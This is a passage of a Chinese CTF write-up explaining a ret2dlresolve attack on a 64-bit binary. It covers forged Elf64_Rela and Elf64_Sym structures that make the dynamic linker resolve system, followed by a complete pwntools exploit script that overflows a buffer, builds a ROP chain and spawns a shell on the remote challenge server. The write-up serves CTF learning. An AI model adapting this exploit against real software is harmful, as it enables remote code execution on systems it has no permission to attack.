Elf64_Rela 有 3 个成员，其中 r_offset 是该函数 got 表绝对位置。r_info 最左边为函数的 Elf64_Sym 在 symtab 中的索引。最低位固定为 7。

Elf64_Rela 结构体占用 0x18 个字节，所以 fakeRel 的位置与 jmprel 的差要为 0x18 的倍数，这里取 0x404520。在调用 _dl_runtime_resolve() 时需放入该索引，即 reloc_index = (elfRel - jmprel) // 0x18 。r_offset 随便取一个，因为不需要第二次调用，这边取 0x404700。Elf64_64 将要放在 0x404550 的地方，所以 r_info 的值为 ((elfSym - symtab) // 0x18) << 0x20 | 0x7 。
而对于 Elf64_Sym，其有 6 个成员，其中 st_name 是函数名称字符串的地址占 32 位。第二个参数如果函数为外部函数，则均为 0x12，占 8 位（其实直接设置为 0 应该也可以的）。其他 4 个成员均为 0，分别占 8,16,64,64 位。总共 3 字长，24 字节，所以上一步的引索是地址偏移除以 0x18。
st_name 取 system 字符串的地址，这边为 0x404590。第二个参数设为 0x12。其他为 0。


随后在 0x404590 的地方输入 "system" ，在 0x404580 的地方输入 "/bin/sh\0" 。然后将这四部分组成一个 payload，用 read 函数输入到 0x404500 的地方。
#!/usr/bin/python3 | |
from pwn import * | |
import time | |
context.binary = elf = ELF('./pwn') | |
context.log_level='debug' | |
p = remote('node4.buuoj.cn',29599) | |
#p = process('./pwn') | |
#gdb.attach(p, 'b read') | |
strtab = 0x400458 | |
symtab = 0x4003c8 | |
jmprel = 0x400518 | |
data = 0x404500 | |
elfSym = data + 0x50 | |
elfRel = data + 0x20 | |
binsh = data + 0x80 | |
elfStr = data + 0x90 | |
assert (elfRel - jmprel) % 0x18 == 0 | |
assert (elfSym - symtab) % 0x18 == 0 | |
reloc_index = (elfRel - jmprel) // 0x18 | |
r_offset = data + 0x200 | |
r_info = ((elfSym - symtab) // 0x18) << 0x20 | 0x7 | |
main_a = elf.sym['main'] | |
plt_init = 0x401020 | |
offset = 0x70 + 0x8 | |
rop = ROP(elf) | |
rop.raw(offset*b'a') | |
rop.read(0, data) | |
#rop.setbuf(1, data+0x500) | |
rop.raw(rop.ret) | |
rop.raw(rop.rdi) | |
rop.raw(flat([binsh, plt_init, reloc_index])) | |
print(rop.dump()) | |
p.send(rop.chain()) | |
time.sleep(1) | |
fakeRel = flat([r_offset, r_info,0]) | |
fakeSym = flat([(elfStr - strtab),0x12,0,0,0,0]) | |
fakeSym = p32(elfStr - strtab) + p8(0x12) + p8(0) + p16(0) + p64(0) + p64(0) | |
fakebs = b'/bin/sh\0' | |
fakestr = b'system\0' | |
payload = flat({0x20:fakeRel, 0x50:fakeSym, 0x80:fakebs, 0x90:fakestr}) | |
p.send(payload) | |
p.interactive() | |
p.close() |
